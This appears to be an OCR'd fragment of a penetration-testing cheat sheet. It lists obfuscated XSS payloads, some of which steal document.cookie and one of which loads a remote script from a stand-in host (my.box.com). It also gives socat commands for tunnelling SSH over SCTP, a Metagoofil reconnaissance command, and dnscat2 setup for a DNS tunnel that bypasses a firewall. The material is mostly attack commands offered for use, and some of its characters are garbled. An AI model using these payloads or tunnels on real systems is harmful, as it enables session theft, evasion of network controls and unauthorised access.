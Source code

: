     <IMG                     SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
    <IMG SRC=”jav ascript:alert(‘XSS’);”>

    perl -e ‘print “<IMG SRC=javascript:alert(\”XSS\”)>”;’ > out

    <BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>

    (“>< iframes http://google.com < iframes >)

    <BODY BACKGROUND=”javascript:alert(‘XSS’)”>
    <FRAMESET><FRAME SRC=”javascript:alert(‘XSS’);”></FRAMESET>
    “><script >alert(document.cookie)</script>
    %253cscript%253ealert(document.cookie)%253c/script%253e
    “><s”%2b”cript>alert(document.cookie)</script>
    %22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)’%3E
    <img src=asdf onerror=alert(document.cookie)>

    SSH Over SCTP (using Socat)

    $ socat SCTP-LISTEN:80,fork TCP:localhost:22
    $ socat TCP-LISTEN:1337,fork SCTP:SERVER_IP:80
    $ ssh -lusername localhost -D 8080 -p 1337

#### Metagoofil – Metadata collection tool

    Note: Metagoofil is a tool for collecting information using Google.
    $ python metagoofil.py -d example.com -t doc,pdf -l 200 -n 50 -o exemplifies -f results.html

#### Use a DNS tunnel to bypass the firewall

    $ apt-get update
    $ apt-get -y install ruby-dev git make g++
    $ gem install bundler
    $ git clone https://github.com/iagox86/dnscat2.git
    $ cd dnscat2/server
    $ bundle install
    $ ruby ./dnscat2.rb
    dnscat2> New session established: 16059
    dnscat2> session -i 16059

    https://downloads.skullsecurity.org/dnscat2/
    https://github.com/lukebaggett/dnscat2-powershell
    $ dnscat –host <dnscat server_ip>
